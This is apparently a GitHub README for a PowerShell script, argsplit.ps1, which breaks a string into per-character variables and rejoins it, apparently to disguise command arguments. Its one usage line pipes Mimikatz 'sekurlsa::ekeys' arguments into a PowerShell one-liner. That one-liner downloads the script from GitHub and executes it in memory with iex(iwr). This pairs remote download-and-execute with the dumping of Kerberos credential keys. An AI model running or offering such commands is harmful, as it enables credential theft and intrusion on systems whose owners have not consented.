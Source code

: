 # Powershell-Misc

argsplit.ps1 : Split string and assigned each of the characters to variable. Next it will joined all the variable.

Usage :
```
echo '"sekurlsa::ekeys" "exit"'| powershell -c "(iex(iwr https://raw.githubusercontent.com/zief/Powershell-Misc/main/argsplit.ps1 -usebasicparsing))"
```

